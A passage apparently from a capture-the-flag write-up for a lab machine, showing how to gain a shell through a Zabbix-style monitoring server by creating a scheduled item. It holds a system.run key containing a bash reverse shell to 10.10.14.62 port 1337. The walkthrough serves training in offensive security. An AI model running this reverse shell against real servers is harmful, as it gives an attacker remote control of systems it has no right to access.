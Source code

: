 To take advantage of this we need to add a new item to the server with a schedule of when it's run. First click on Configuration, then hosts, then items:

![shibboleth-hosts](/assets/images/2021-12-08-21-52-43.png)

## Reverse Shell

Click on the Create Item button on the far right, then use this simple bash reverse shell as the command we'll run:

```sh
system.run[/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.62/1337 0>&1',nowait]
```

Give your item a name and paste our command in to the key field:

![shibboleth-items](/assets/images/2021-12-08-21-53-03.png)
